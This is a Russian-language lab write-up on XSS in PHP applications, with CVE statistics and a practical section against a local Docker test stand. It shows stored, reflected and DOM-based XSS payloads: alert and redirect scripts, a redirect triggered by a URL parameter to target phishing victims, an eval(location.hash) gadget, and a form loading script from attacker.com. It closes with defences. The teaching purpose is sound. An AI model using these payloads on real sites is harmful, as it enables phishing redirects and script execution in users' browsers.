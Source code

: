 ## Безопасная разработка в HTML/CSS и PHP

### I. Теоретическая часть.

В соответствии со статистикой [NST](https://nvd.nist.gov/vuln/search/statistics?form_type=Basic&results_type=statistics&query=php+xss&search_type=all&isCpeNameSearch=false) количество найденных уязвимостей XSS в приложениях, написанных на PHP составило:

в 2021 году - 378, или 1,88% от общего числа уязвимостей (20158)

в 2022 году - 367, или 1,46% от общего числа уязвимостей (25101)

Две новых уязвимости такого класса на 18 апреля 2023 года:

| Уязвимость                                                   | Дата публикации | Описание                                                     |
| ------------------------------------------------------------ | --------------- | ------------------------------------------------------------ |
| [CVE-2022-28353](https://nvd.nist.gov/vuln/detail/CVE-2022-28353) | 15.04.2023      | В плагине предупреждения о внешнем перенаправлении для [MyBB](https://mybb.com/) URL-адрес перенаправления (он же external.php?url=) уязвим для XSS. Служит для выдачи предупреждения перед переходом по внешним ссылкам |
| [CVE-2023-29847](https://nvd.nist.gov/vuln/detail/CVE-2023-29847) | 14.04.2023      | Было обнаружено, что AeroCMS v0.0.1 содержит множество уязвимостей для сохраненных межсайтовых сценариев (XSS) с помощью параметров comment_author и comment_content в /post.php . Эти уязвимости позволяют злоумышленникам выполнять произвольные веб-скрипты или HTML с помощью созданной полезной нагрузки. |



### II. Практическая часть.

Запустим тестовый стенд.

`docker pull ket9/otus-devsecops-xss:latest`
`docker run -d -p 8080:80 --name otus-05 -e tokentimetolive=6000 ket9/otus-devsecops-xss:latest`

#### Stored XSS

Вид атаки, когда результат достигается при открытии пользователем страницы, куда выводится информация, хранящаяся на сервере. Такой тип атаки не требует обязательной фишиноговой подготовки в отношении пользователей, так как вредоносный код доставляется на их машины при посещении зараженного сайта.

В исследуемом сервисе такой вариант атаки доступен через добавление комментария. Например, можно организовать вывод сообщения при каждом открытии страницы со списком комментариев, указав в качестве текста комментария при его добавлении текст:

`My first comment!<script>alert("Congratulations! You was hacked!")</script>`

Можно привести сервис в состояние отказа в обслуживании в части просмотра или добавления комментариев, или выполнить редирект на фишинговый сайт с таким-же дизайном:

`<script>window.location.href="https://google.com"</script>`

В этом случае при открытии страницы с комментариями автоматически будет происходить редирект на указанную ссылку.

Могут быть случаи, когда подобного рода атака должна совершаться в отношении только одного или нескольких пользователей, а другие о ней знать не должны.  Доработав скрипт, мы получим его срабатывание только при наличии в адресной строке параметра **attack** со значением **true**:

`<script>`

`const params = new URLSearchParams(window.location.search);`
`const attack= params.get("attack");`
`if(attack==="true") {`
`    window.location.href="https://google.com"`
`};`
`</script>``

Нужным пользователям может быть отправлена должным образом сформированная ссылка фишинговым письмом, а остальные про наличие такой проблемы даже не узнают:

`http://localhost:8080/XSS-1/index.php?attack=true`

#### Reflected XSS

Вид атаки, когда результат достигается после ввода пользователем вредоносного кода. Другое название - неперсистентный XSS, так как вредоносный код не хранится на сервере. Вариант использования такой атаки - фишинговое письмо со ссылкой, содержащей вредоносный код:

`get.php?search=<script>alert("XSS ATTACK!")></script>;`

или через POST-запрос, например, в заранее подготовленной форме:

`form name=TheForm action=http://myapp.com/page.php method=post>`
   `<input type=hidden name=foo value="<script src=http://attacker.com/bad.js></script>;"/>`
`</form>`

В исследуемом приложении такой вид атаки недоступен.

#### DOM-based XSS

Межсайтовые скрипты на основе DOM – это уязвимость, которая появляется в объектной модели документа, а не на HTML-страницах. В этом случае выполняется манипулирование компонентами объектной модели документа, без отправки вредоносного кода на сервер, что существенно усложняет обнаружение такой уязвимости.

Так как в чистом виде этот тип атаки в приложении недоступен, попробуем продемонстрировать его, используя дополнительно Stored XSS.

С помощью простого скрипта и правильно сформированных ссылок мы можем выполнять произвольный код на атакуемой машине:

Добавляем комментарий:

`<script>var l = location.hash.slice(1);eval(l);</script>`

Формируем ссылку:

`http://localhost:8080/XSS-1/#alert('Surprise!')`

И получаем результат:

![surprise](./images/surprise.png)

Особенностью DOM-based атак является то, что они выполняются исключительно на стороне клиента. Это достигается за счет использования символа **#** в ссылке, так как все что находится после него отрезается и на сервер не передается, но доступно в JavaScript на клиенте. То есть в нашем случае для выполнения любоых операций, на которые способен JavaScript, нам достаточно только 1 зараженного комментария.

#### Blind XSS

Подвид Stored XSS, только ориентирован на отложенное срабатывание, и вообще не обязательно в этом приложении. Зачастую используется для атаки на административные панели сервисов.

#### Self XSS

Вид атаки, когда пользователь самостоятельно запускает вредоносный код, например в консоли браузера. 

#### mXSS (mutation-based XSS)

Относительно новый и достаточно опасный вектор атак. Заключается в том, что безопасный с точки зрения HTML-санитайзеров пользовательского ввода скрипт, после его обработки превращается во вредоносный. 

Примеры атаки с использованием этого метода для [Firefox](https://portswigger-labs.net/mxss/?input=%3Cmath%3E%3Cmtext%3E%3Ctable%3E%3Cmglyph%3E%3Cstyle%3E%3C![CDATA[%3C/style%3E%3Cimg%20title=%22]]%26gt;%26lt;/mglyph%26gt;%26lt;img%26Tab;src=1%26Tab;onerror=alert(1)%26gt;%22%3E) и [Chrome-based](https://portswigger-labs.net/mxss/?input=%3Cmath%3E%3Cmtext%3E%3Ctable%3E%3Cmglyph%3E%3Cstyle%3E%3C!--%3C/style%3E%3Cimg%20title=%22--%26gt;%26lt;img%20src=1%20onerror=alert(1)%26gt;%22%3E) браузеров.



### Основные технические способы противодействия XSS-атакам.

Экранирование входных и выходных данных, по возможности избегая самописных решений - лучше использовать или штатные средства языка, или популярные проверенные библиотеки (например, для PHP это Reform или HTML Purifier), отсекая HTML-теги и другие потенциально опасные данные.

Валидация пользовательского ввода.

Использование HTML-санитайзеров.

Установка для cookies, содержащих чуствительные данные флага **httpOnly** - тогда они не будут доступны для чтения через JavaScript.

Явно указывать кодировку страницы, чтобы избежать проблем с экранированием символов **<** и **>**, если они указаны в кодировке **UTF-7** (тогда они имеют вид **+ADw-** и **+AD4-** и скорее всего будут пропущены при валидации или экранировании, а с ними и весь вредоносный скрипт).

Использовать заголовок **Content Security Policy**. Это заголовок, который позволяет в явном виде объявить «белый список» источников, с которых можно подгружать различные данные, например, JS, CSS, изображения и пр. Даже если злоумышленнику удастся внедрить скрипт в веб-страницу, он не выполниться, если не будет соответствовать разрешенному списку источников (при условии внедрения через **script src=...**)

Регулярный анализ новых обнаруженных уязвимостей и обновление зависимостей проекта на версии, в которых обнаруженные уязвимости устранены.
